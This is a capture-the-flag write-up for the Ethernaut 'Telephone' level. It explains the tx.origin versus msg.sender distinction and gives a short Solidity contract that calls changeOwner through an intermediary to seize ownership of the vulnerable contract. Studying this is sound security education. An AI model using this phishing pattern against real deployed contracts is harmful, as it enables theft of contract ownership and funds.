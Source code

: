 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/4-telephone.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 4 - Telephone</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 4 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-04-telephone)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Example Explanation](#example-explanation)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference:](#reference)

## Goals

<img src="../assets/requirements/4-telephone-requirements.webp" width="800px"/>

## The hack

The goal here is to understand the difference between `msg.sender` and `tx.origin`. The `Telephone` contract is vulnerable to a phishing attack because it uses `tx.origin` to check who initiated the transaction.

- `tx.origin` is the original sender of the transaction, the first account that signed the transaction. It can either be an EOA (Externally Owned Account) or an [ERC-4337](https://eips.ethereum.org/EIPS/eip-4337) contract. It is a static value that does not change, regardless of the number of calls in the stack (think nested transactions).
- `msg.sender` is the address that initiated the latest call in the transaction. It can change if the transaction is a call from another contract for instance. So if there are multiple calls following each other in the same transaction, `msg.sender` will always be the address that initiated the latest call, and its value will change with every new call made within this transaction.

### Example Explanation

- **Direct Call (EOA to Contract)**

  - `EOA => Contract` | `tx.origin === msg.sender === EOA`

- **Indirect Call (EOA through Contract1 to Contract2)**
  - `EOA => Contract1 => Contract2`
    - For `Contract1`: `tx.origin === msg.sender === EOA`
    - For `Contract2`: `tx.origin === EOA`, `msg.sender === Contract1`

In other words, we simply have to deploy an intermediary contract to bypass `tx.origin != msg.sender`. `tx.origin` will be our EOA while `msg.sender` will be the address of the intermediary contract.

## Solution

Write another contract that calls the deployed Telephone contract and passes in the new owner's address

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract MissedCall {
    address immutable telephone;

    constructor(address _telephone) {
        telephone = _telephone;
    }

    function attack() public {
        ITelephone(telephone).changeOwner(msg.sender);
    }
}
```

## Takeaway

- Usage of `tx.origin` should be done with care, as it can lead to phishing attacks;
- Useful in certain cases where you want EOA accounts to call a function for example

## Reference:

https://solidity-by-example.org/hacks/phishing-with-tx-origin/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
